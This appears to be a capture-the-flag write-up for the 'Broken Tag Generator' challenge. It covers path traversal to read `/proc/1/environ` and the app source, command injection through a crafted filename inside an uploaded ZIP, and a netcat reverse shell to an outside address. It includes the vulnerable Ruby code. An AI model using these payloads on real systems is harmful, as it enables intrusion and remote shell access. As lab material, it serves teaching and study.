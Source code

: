 # Broken Tag Generator

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [tag-generator website](https://tag-generator.kringlecastle.com/)<br/>
**Terminal hint**: [Redis Bug Hunt](../hints/h8.md)


## Objective

!!! question "Request"
    Help Noel Boetie fix the [Tag Generator](https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

??? quote "Noel Boetie"
    Welcome to the Wrapping Room, Santa!

    The tag generator is acting up.

    I feel like the issue has something to do with weird files being uploaded.

    Can you help me figure out what's wrong?
    

## Hints

??? hint "Patience and Timing"
    Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!

??? hint "Source Code Analysis"
    I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?

??? hint "Endpoint Exploration"
    Is there an endpoint that will print arbitrary files?

??? hint "Content-Type Gotcha"
    If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!

??? hint "Error Page Message Disclosure"
    Can you figure out the path to the script? It's probably on error pages!

??? hint "Download File Mechanism"
    Once you know the path to the file, we need a way to download it!

??? hint "Source Code Retrieval"
    We might be able to find the problem if we can get source code!

??? hint "Redirect to Download"
    If you find a way to execute code blindly, I bet you can redirect to a file then download that file!


## Solution

!!! note "Quick 'n dirty or reverse shell?"
    You can either solve this with minimal effort or you can go for a reverse shell. We'll explore both options! :smile:


### Path Traversal

Start by analyzing the [`app.js`](https://tag-generator.kringlecastle.com/js/app.js) JavaScript code. After a successful file upload the uploaded image will be accessible via the `/image?id=` endpoint with `id` being a randomly generated value that identifies the image (line 7). 

```javascript linenums="1" hl_lines="7"
success: function (data) {
  $('.uploadForm')[0].reset();
  $('[for=file-1] span').text('Select file(s)');
  setTimeout(() => {
    data.forEach(id => {
      var img = $('<img id="dynamic">');
      img.attr('src', `/image?id=${id}`);
      img.on('load', () => {
        const imgElement = img[0];
        var imgInstance = new fabric.Image(imgElement, {
          left: (canvas.width - imgElement.width) / 2,
          top: (canvas.height - imgElement.height) / 2,
          angle: 0,
          opacity: 1
        });
        canvas.add(imgInstance);
      });
    });
  }, 500);
},
```


### Short solution

The `/image?id=` endpoint appears to be vulnerable to a [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal), allowing us to read files on the remote system. Since the objective is to read the value of an environment variable and pretty much everything on Linux is considered a file, a request to `/image?id=../../../proc/1/environ` will return the information we need in the HTTP response, including `GREETZ`. :stuck_out_tongue_winking_eye:

![Short solution](../img/objectives/o8/solution_short.png)


### Longer solution

An HTTP request using an invalid `id` will result in a 404 error response with a message stating `Error in /app/lib/app.rb: Route not found`. This tells us the location of the backend Ruby on Rails source code file.

![HTTP request error](../img/objectives/o8/raw_response.png)

!!! info "Tricking web browsers using `X-Content-Type-Options: nosniff`"
    The `X-Content-Type-Options: nosniff` header in the HTTP response message prevents web browsers from doing MIME-type sniffing. The web browser will take whatever is set as the `Content-Type` and assume that information is correct. In this case, the HTTP response tells the browser the data is an `image/jpg` file which the browser fails to render. As a result, using an invalid `id` in a web browser will display an image rendering error instead.

    ```
    The image “https://tag-generator.kringlecastle.com/image?id=somethingsomething%20test” cannot be displayed because it contains errors.
    ```

We can leverage the same [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal) as before by issuing a request to `https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb` to download [`app.rb`](../artifacts/objectives/o8/app.rb). Because the backend code does not filter the `filename` variable prior to using it in the `system` call, we can leverage this flaw to execute our own code (line 7).

```ruby linenums="1" hl_lines="7"
def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end
```

Structuring the filename of the uploaded file as `myfile';command_to_run;ls '.png` will translate the `convert` command into `convert -resize 800x600\\> -quality 75 'myfile';`, `command_to_run;`, and `ls '.png' '#{ out_path }'`. Nudging our own command neatly in the middle. 

The `process_file()` function tells us the app allows uploading files with an extension matching either `.jpg`, `.jpeg`, `.png`, or `.zip`. To prevent our uploaded file from being renamed at the server side we can leverage the `handle_zip()` function as it leaves filenames as-is after unpacking the uploaded archive (line 7). Luckily for us, Jack also commented out the filename validation code (line 2). Thanks, Jack! :thumbsup:

```ruby linenums="1" hl_lines="2 7"
# I wonder what this will do? --Jack
# if entry.name !~ /^[a-zA-Z0-9._-]+$/
#   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
# end

# We want to extract into TMP_FOLDER
out_file = "#{ TMP_FOLDER }/#{ entry.name }"

# Extract to file or directory based on name in the archive
entry.extract(out_file) {
  # If the file exists, simply overwrite
  true
}

# Process it
out_files << process_file(out_file)
```

To retrieve the value of the `GREETZ` environment variable, create an image file named `myfile';echo $GREETZ>the_GREETZ_tag.txt;ls '.png`, add it to a [ZIP file](../tools/objectives/o8/GREETZ_payload.zip), and upload it using the tag generator application. The application will unpack the archive, execute our command, and save the output to `/tmp/the_GREETZ_tag.txt` which we can then download using a request to `https://tag-generator.kringlecastle.com/image?id=../../../tmp/the_GREETZ_tag.txt`. :boom:

![Longer solution](../img/objectives/o8/solution_long.png)

!!! done "Answer"
    JackFrostWasHere

!!! note "Reverse shell"
    A request to `https://tag-generator.kringlecastle.com/image?id=../../../bin/nc` confirms that netcat is available so we can leverage the code execution vulnerability to establish a reverse shell with full interactive access. The command we need to run on the host is `nc 1.2.3.4 55100 -e /usr/bin/sh`, but forward slashes are not an option as they're not allowed in a file name.
    
    We can work around this limitation by using `` `which sh` `` to ask the system what the full path for the `sh` binary is, instead of specifying it as part of the filename. The image filename now becomes ``myfile';nc 1.2.3.4 55100 -e `which sh`;ls '.png``. Set up a local listener using `nc -nlvp 55100`, upload the [zipped image file](../tools/objectives/o8/reverse_shell_payload.zip), and wait for the reverse shell connection to be established.

    ![Reverse shell](../img/objectives/o8/reverse_shell.png)
